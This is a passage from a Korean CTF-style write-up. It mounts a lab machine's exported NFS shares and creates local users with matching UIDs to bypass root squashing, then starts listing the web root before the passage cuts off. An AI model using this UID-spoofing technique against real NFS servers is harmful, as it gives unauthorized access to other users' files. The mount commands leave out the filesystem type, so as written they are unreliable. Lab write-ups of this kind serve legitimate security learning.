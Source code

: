 ```/home/ross``` , ```/var/www/html``` 디렉터리 2개가 export 되어있는 것을 볼 수 있습니다. NFS 파일시스템으로 마운트 한 뒤, 그 구조를 살펴봅니다.

```bash
mkdir -p mnt/ross
mkdir -p mnt/html
cd mnt

mount -t 10.129.86.233:/home/ross ross
mount -t 10.129.86.233:/var/www/html html
```

마운트 하고 그 구조를 살펴보면 각각의 디렉터리에 권한이 uid 2017, uid 1001로 되어 있습니다.

```bash
┌──(root㉿kali)-[/home/kali/Desktop/mnt]
└─ls -al
total 16
drwxr-xr-x  4 root root     4096 Feb 10 11:21 .
drwxr-xr-x 11 kali kali     4096 Feb 10 11:19 ..
drwxr-xr--  5 2017 www-data 4096 Feb 10 11:20 html
drwxr-xr-x 14 1001     1001 4096 Feb 10 10:20 ross
```

NFS 서비스 특성상 root squashed가 되어있을 확률이 크기 때문에 최대 권한을 얻기 위해서 각각 uid 2017, uid 1001의 사용자를 만들어서 파일에 접근을 시도합니다.

```bash
useradd -u 1001 user1001
useradd -u 2017 user2017
```

먼저 user2017의 권한으로 접근하여 /var/www/html폴더의 구조를 확인합니다.

```bash
user2017@kali:/home/kali/Desktop/mnt/html$ tree
.
├── css
│   ├── animate.min.css
│   ├── bootstrap.css
│   ├── bootstrap.css.map
│   ├── bootstrap-grid.css
│   ├── bootstrap-grid.css.map
│   ├── bootstrap-grid.min.css
│   ├── bootstrap-grid.min.css.map
│   ├── bootstrap.min.css
│   ├── bootstrap.min.css.map
│   ├── bootstrap-reboot.css
│   ├── bootstrap-reboot.css.map
│   ├── bootstrap-reboot.min.css
│   ├── bootstrap-reboot.min.css.map
│   ├── default-skin.css
│   ├── font-awesome.min.css
│   ├── icomoon.css
│   ├── jquery.fancybox.min.css
│   ├── jquery.mCustomScrollbar.min.css
│   ├── jquery-ui.css
│   ├── meanmenu.css
│   ├── nice-select.css
│   ├── normalize.css
│   ├── owl.carousel.min.css
│   ├── responsive.css
│   ├── slick.css
│   └── style.css
├── images
│   ├── banner-bg.png
│   ├── bg-1.png
│   ├── contact-bg.png
│   ├── fb-icon.png
```